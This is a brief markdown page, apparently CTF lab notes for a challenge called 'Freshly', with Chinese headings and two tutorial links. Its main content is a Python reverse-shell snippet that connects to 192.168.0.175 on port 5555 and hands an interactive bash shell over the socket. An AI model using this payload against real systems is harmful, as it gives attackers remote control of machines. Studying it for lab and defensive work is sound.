 # 环境
# 教程
* https://github.com/haidragon/NetworkTrafficAnalysis/tree/master/ctf/Freshly
* https://blog.csdn.net/simple___sunny/article/details/86610509
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“192.168.0.175”,5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```
